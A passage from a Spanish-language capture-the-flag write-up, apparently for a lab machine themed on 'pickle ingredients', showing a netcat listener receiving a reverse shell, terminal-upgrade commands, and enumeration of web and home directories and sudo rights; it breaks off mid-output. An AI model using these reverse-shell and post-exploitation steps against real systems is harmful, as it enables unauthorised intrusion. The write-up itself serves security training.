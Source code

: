 
Al enviarlo, revisamos nuestro `netcat`:
```
nc -nvlp 1234   
listening on [any] 1234 ...
connect to [10.14.48.121] from (UNKNOWN) [10.10.170.234] 41450
bash: cannot set terminal process group (1344): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-170-234:/var/www/html$ whoami
whoami
www-data
www-data@ip-10-10-170-234:/var/www/html$ 
```
¡Bien!, ganamos acceso.


## Escalada de privilegios

El primer paso será arreglar la terminal, para ello vamos a ejecutar los siguiente comandos:

- script /dev/null -c bash
- control + z
- stty ray -echo; fg
- reset xterm
- export TERM=xterm
- export SHELL=bash
- stty rows X columns Y (dependiendo de tu stty size)

De esta forma obtenemos una stty más cómoda.

Si vemos los archivos del directorio:
```
www-data@ip-10-10-170-234:/var/www/html$ ls
ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
Tenemos el primer ingrediente.
```
www-data@ip-10-10-170-234:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt 
mr. **************
```
Vamos a buscar a los directorios personales de los usuarios:
```
www-data@ip-10-10-170-234:/var/www/html$ cd /home
www-data@ip-10-10-170-234:/home$ ls
rick  ubuntu
www-data@ip-10-10-170-234:/home$ ls rick/
second ingredients
www-data@ip-10-10-170-234:/home$ cat rick/second\ ingredients 
1 ********
```
Tenemos ya el segundo ingrediente, en este punto vamos a ver nuestros privilegios:
```
www-data@ip-10-10-170-234:/home$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-170-234.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
```
